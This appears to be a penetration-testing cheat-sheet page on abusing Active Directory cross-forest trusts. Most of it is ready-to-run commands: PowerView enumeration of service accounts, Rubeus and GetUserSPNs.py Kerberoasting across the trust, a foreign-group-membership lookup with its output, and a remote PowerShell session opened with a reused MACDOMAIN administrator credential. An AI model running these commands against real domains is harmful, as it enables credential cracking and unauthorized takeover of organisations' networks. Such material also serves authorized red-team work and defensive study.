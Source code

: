 # Cross-Forest Trust Abuse

Kerberoasting and ASREPRoasting can be performed across trusts, depending on its direction. **In a domain with either inbound or bidirectional domain/forest trust we can perform various attacks.** Like obtaining a Kerberos ticket and cracking the hash.

#### Enumerate accounts for SPNs

```powershell
# Find users
Get-DomainUser -SPN -Domain ZENCORP.LOCAL | select SamAccountName

# Check group memberships
Get-DomainUser -Domain ZENCORP.LOCAL -Identity mssqlsvc |select samaccountname,memberof

# Kerberoast
.\Rubeus.exe kerberoast /domain:ZENCORP.LOCAL /user:mssqlsvc /nowrap
```

Or from Linux

```bash
GetUserSPNs.py -request -target-domain MACDOMAIN.LOCAL ZENORP.LOCAL/wley  
```

### <mark style="color:yellow;">Admin Password Re-Use & Group Membership</mark>

Sometimes usernames that we find in domain A and domain B its possible that they have the same password. Also taking over Admins in domain A that have membership in domain B which would give access to domain B as well.

Here we se Administrator of ZENCORP have also Administrator account for MACDOMAIN.

```powershell
Get-DomainForeignGroupMember -Domain ZENCORP.LOCAL

GroupDomain             : ZENCORP.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=ZENCORP,DC=LOCAL
MemberDomain            : ZENCORP.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=ZENORP,DC=LOCAL

PS C:\zen> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

MACDOMAIN\administrator
```

Based on that membership we gain access

```powershell
Enter-PSSession -ComputerName DC01.ZENCORP.LOCAL -Credential MACDOMAIN\administrator
```
